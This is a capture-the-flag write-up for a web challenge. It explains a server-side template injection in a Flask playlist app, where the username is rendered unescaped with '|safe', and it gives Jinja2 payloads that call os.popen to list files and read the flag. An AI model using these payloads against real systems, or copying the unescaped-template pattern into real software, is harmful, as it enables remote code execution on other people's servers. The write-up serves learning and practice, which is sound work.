 # Music Checkout

Web, 80 solves. We are given python source code.

Looking at the route that handles user input:

```
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{{" in text or "}}" in text:
            return "Nice try!", 406
        text = [line.split(",") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```

We see that there are checks done for a basic SSTI payload on the text field, but not the username field. Looking at the playlist.html template, we can see how the username field is substituted:

```
<p class="item">ORDER #0001 for {{ username|safe }}</p>
```

The `|safe` indicates that the string should not be escaped and should be fully trusted as is, which bypasses all protections in place against SSTI. Thus, we can use basic SSTI payloads to achieve RCE on this site.

Submitting a username of `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` shows us the following:

```
ORDER #0001 for Dockerfile __pycache__ app.py flag.txt templates 
```

So we can use `{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}` to read the flag.

![](2024-05-19-22-00-16.png)

Flag: `tjctf{such_quirky_taste_818602f2}`